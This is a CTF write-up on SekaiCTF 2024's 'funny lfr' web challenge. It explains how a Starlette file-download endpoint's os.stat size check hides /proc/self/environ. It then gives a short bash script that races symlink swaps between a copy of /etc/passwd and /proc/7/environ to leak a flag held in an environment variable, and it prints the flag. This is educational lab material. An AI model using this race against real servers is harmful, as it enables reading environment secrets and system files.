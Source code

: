 ```yaml
---
title: "SEKAI 24 - Funny Lfr"
date: 2024-08-30T11:01:21+01:00
tags: ["ctf", "write-up", "sekaictf"]
author: "hxuu"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "CTF write-up for Funny Lfr"
summary: "The article explains exploiting a race condition in a Starlette app to bypass `os.stat` checks, using symlinks, and ultimately retrieving the flag from `/proc/self/environ`."
canonicalURL: ""
disableHLJS: false
disableShare: false
hideSummary: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "/images/default-cover.jpg" # default image path/url
    alt: "CTF Write-up Cover Image" # alt text
    caption: "CTF Write-up" # display caption under cover
    relative: false
    hidden: false
editPost:
    URL: "https://github.com/hxuu/content"
    Text: "Suggest Changes"
    appendFilePath: true
---
```


## Challenge Description

```
name: funny lfr
category: web exploitation
points: 183
solves: 36 solves
```

You can access the challenge via SSH:
```bash
ncat -nlvp 2222 -c "ncat --ssl funny-lfr.chals.sekai.team 1337" & ssh -p2222 user@localhost
```
SSH access is only for convenience and is not related to the challenge.

## Analysis

We are given the following source files:

```bash
├── app.py
└── Dockerfile
```

Which represent a simple [Starlette](https://www.starlette.io/) application:

```python
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import FileResponse


async def download(request):
    return FileResponse(request.query_params.get("file"))


app = Starlette(routes=[Route("/", endpoint=download)])
```

And a Dockerfile

```bash
FROM python:3.9-slim

RUN pip install --no-cache-dir starlette uvicorn

WORKDIR /app

COPY app.py .

ENV FLAG="SEKAI{test_flag}"

CMD ["uvicorn", "app:app", "--host", "0", "--port", "1337"]
```

At first glance the challenge seems very simple. You make a request to `/?file=<path>`
and get the file contents displayed to you.

### `Inside SSH`

![inside-ssh](/blog/images/2024-08-30-11-28-28.png)

The flag as highlighted by the Dockerfile is stored inside an environment variable
called `FLAG`. Doing a quick google search, we can see that environment variables
in linux systems are stored in the `/proc/pid/environ` file.

With that knowledge in hand, we should get the flag just by getting the results of
`/proc/self/environ` which stores the environment variables of the current running process.

Right?

![right?](/blog/images/2024-08-30-11-38-10.png)

We got nothing... That's weird.

We know the application should return the contents of the files we ask for. However,
asking for `/proc/self/environ` doesn't return anything. Why?

Well, the python application is a Starlette application that adheres to ASGI specs,
the FileResponse class is responsible for returning files to the client. Before serving
a file, FileResponse checks the file's size using the os.stat syscall.

### `from Starlette source code`

![stat-check](/blog/images/2024-08-30-11-52-53.png)

The `os.stat` function retrieves various attributes about a file, such as its size, modification time, and permissions. When `os.stat` is called on a file, it checks the filesystem for this information.

However, in the case of `/proc/self/environ`, which resides within the `procfs` virtual filesystem (VFS), there’s a unique situation. The `procfs` VFS provides access to kernel and process information, and many files within it are not regular files but rather interfaces to the kernel's data structures. These files often have special behaviors, and their contents may be dynamically generated when accessed.

When `os.stat` **checks** `/proc/self/environ`, it reports the file size as zero because, in many cases, the file doesn’t have a traditional size; it's an interface to process-specific information that’s only generated on demand. Consequently, when `FileResponse` sees a size of zero, it might interpret this as an empty or non-existent file, even though reading from `/proc/self/environ` would normally return environment variables for the process.

This behavior can lead to the application not returning any content when asked for `/proc/self/environ`, despite the file being non-empty in a traditional sense. The mismatch between how `os.stat` reports the file's size and the file's actual contents in `procfs` **is the root cause of this issue.**


---

So, what can we do then?

It turns out, we can trigger a race condition to do the following:

1. request a file whose size is greater than 0.
2. right after `os.stat` and before the actual **read**, we swap the latter file,
with the desired file which is `/proc/pid/environ`.

To achieve such a thing, we can make use of [symlinks](https://en.wikipedia.org/wiki/Symbolic_link), create a symlink that points
to a bigger file, bypass the `os.stat` step, then right before the file read, we change
the link to `/proc/pid/environ` and successfully get the flag.


## Exploitation

To trigger the race condition, let's first create a bash script that creates a large file,
create a symlink to it, and then create an infinite loop which swaps the links between this file
and `/proc/pid/environ`.

> Note that you should replace pid with the actuall process id of the running python application.
You can figure that using `ps aux`. pid=7 in my case.

### `solve.sh`

```bash
#!/usr/bin/env bash

cat /etc/passwd > /home/user/big-file.txt

ln -s big-file.txt /home/user/the-link

while true; do
    ln -sf /proc/7/environ          /home/user/the-link
    ln -sf /home/user/big-file.txt  /home/user/the-link
done
```

Running this on remote, and doing few curls of the `the-link` file should give us the flag.

![solve](/blog/images/2024-08-30-12-32-01.png)

---

Flag is: `SEKAI{b04aef298ec8d45f6c62e6b6179e2e66de10c542}`

Things we learned from this challenge:

Here are the key lessons from the challenge:

- **`os.stat` and `procfs`**: Learned how `os.stat` retrieves file attributes and why it reports `/proc/self/environ` as size zero in `procfs`.

- **Race Condition Exploit**: Discovered how to exploit race conditions using symlinks to bypass `os.stat` and read sensitive files.

- **Symlink Usage**: Learned to manipulate file paths using symlinks for exploitation purposes.
